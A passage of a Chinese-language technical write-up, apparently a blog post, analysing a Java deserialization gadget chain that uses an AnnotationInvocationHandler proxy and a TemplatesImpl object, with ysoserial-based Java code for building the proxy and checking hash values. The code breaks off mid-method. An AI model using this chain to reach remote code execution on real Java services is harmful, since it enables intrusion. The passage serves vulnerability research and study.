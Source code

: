 在 CC6 利用 put() 触发的 hashcode() 实现 RCE，而要触发这个 equals() 就需要满足

1. 存储在`table`数组中位置`i`的元素`e`的哈希值和传入的`key`的哈希值相等
2. 当前元素的 key 和 传入的 key 值不同

![image-20230727162002555](attachments/image-20230727162002555.png)

我们前面提到要对 proxy 执行 equals 方法，并且参数为恶意对象，所以这里我们期望的构造就应该是

```
key = (Proxy)AnnotationInvocationHandler
k = TemplatesImpl 实例
```

Ps.  key 是后传入进来比较的，所以在构造 Hashset 时应该先添加 TemplatesImpl 后添加 Proxy，ysoserial 用到 LinkedHashSet 猜测也是想体现这个思想，不过实际还是和添加的顺序相关。

## 0x04 hash比较

接下来就是使得两个对象的hash相等，hash() 方法实际上就是调用了 key 的 hashcode() 方法如下。我们多次执行可以发现 proxy 的值恒定，但是 templates 一直被改变。大多数师傅对这个的解释是 TemplatesImpl 是一个 native 方法，但是我觉得这个地方回归到 Object 对象来解释更好理解。TemplatesImpl 没有重写 hashcode() ，因此仍然继承了 `Object` 类中的默认实现。而 `Object` 类的 `hashCode()` 方法默认使用对象的内存地址来计算哈希值。由于在Java中，对象的内存地址是唯一的，所以默认情况下每个对象的`hashCode()`方法返回的值都是不同的。

```java
    public static void main(final String[] args) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl("command");

        HashMap map = new HashMap();
        map.put("1", 1);
        InvocationHandler tempHandler = (InvocationHandler) Reflections.getFirstCtor(Gadgets.ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
        Reflections.setFieldValue(tempHandler, "type", Templates.class);
        Templates proxy = Gadgets.createProxy(tempHandler, Templates.class);


        System.out.println("proxy: " + hash(proxy));
        System.out.println("templates: " + hash(templates));
    }

final int hash(Object k) {
        int h = 0;
//        if (useAltHashing) {
//            if (k instanceof String) {
//                return sun.misc.Hashing.stringHash32((String) k);
//            }
//            h = hashSeed;
//        }
```
